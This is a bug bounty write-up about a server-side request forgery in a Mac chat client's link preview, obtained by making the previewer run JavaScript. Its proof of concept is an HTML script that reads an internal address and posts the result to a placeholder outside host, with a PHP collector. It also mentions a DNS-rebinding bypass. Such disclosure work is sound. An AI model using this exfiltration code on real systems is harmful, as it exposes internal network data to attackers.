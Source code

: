 I was working on a private program which i cannot disclose

First of all, its web assets have several subdomains. After I tested it for a while, I plan to look at the mac client.

The mac client has an chat interface where i found a SSRF.

The following is the whole process

After installation, sign up for login, then I see a chat interface.

Send a URL

![Image failed to load](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/1.png)
It seems to preview the url, return a title and favicons

I use my server ip to test. Then received

![Image failed to load](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t3.png)
Found that is the browser's ua header

Then I tested it http://127.0.0.1 https://127.0.0.1 file://etc/passwd ....

Tested a lot of common internal ip

But

![Image failed to load](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t1.png)
![Image failed to load](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t2.png)
No effect

Then I tried the subdomain brute force, as well as some asset discovery sites to find internal ip

Until there is an ip

![Image failed to load](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t4.png)
Seems to be successful

Then I quickly submitted the vulnerability

But

![Image failed to load](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t5.png)
As written above, we can only get a very small amount of content.

After testing, I found that it will also execute js because it is browser ua

  
 
    <html><p id='d1'></p>
    <script>
        function get(url) {
            try {
                var req = new XMLHttpRequest();
                req.open('GET', url, false);
                req.send(null);
                if(req.status == 200)
                    return req.responseText;
            } catch(err) {
            }
            return null;
        }
        var role = get('https://google.com');
        document.getElementById("d1").innerHTML=role.length;
    </script></html>
    
    
![Image failed to load](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t6.png)

Can successfully get Google returns the content length

Does not seem to be blocked by Same Origin Policy

Then we can get any internal network content

**POC**

xxx.php

    <?php
    file_put_contents("save.txt", $_POST['cc'] . "\n", FILE_APPEND);
    ?>
    
poc.html

    <html><p id='d1'></p>
    <script>
    function get(url) {
        try {
            var req = new XMLHttpRequest();
            req.open('GET', url, false);
            req.send(null);
            if(req.status == 200)
                return req.responseText;
        } catch(err) {
        }
        return null;
    }
    function post(url,content){
        var req = new XMLHttpRequest();
        req.open("POST", url, true);
        var formData = new FormData();
        formData.append("cc", content);
        req.send(formData);
    }
    var role = get('https://Internal ip');
    post('https://xxxxxxxxxxx.com/xxx.php',escape(role));
    document.getElementById("d1").innerHTML=role.length;
    </script></html>
    
Then check save.txt (You can also use the Burp Collaborator client)

![Image failed to load](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t8.png)
Url decoding

![Image failed to load](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t9.png)

We are successful in getting the full content of any address on the internal network.

**If Same Origin Policy blocks**

Bypass Same Origin Policy with DNS-rebinding to retrieve  Internal server .

![Image failed to load](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t23.png)

Details from https://github.com/mpgn/ByP-SOP

Finally 
![Image failed to load](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t11.png)

I got the highest bounty reward for this private project.

![Image failed to load](https://raw.githubusercontent.com/Jinone/jinone.github.io/master/_posts/image1/t22.png)


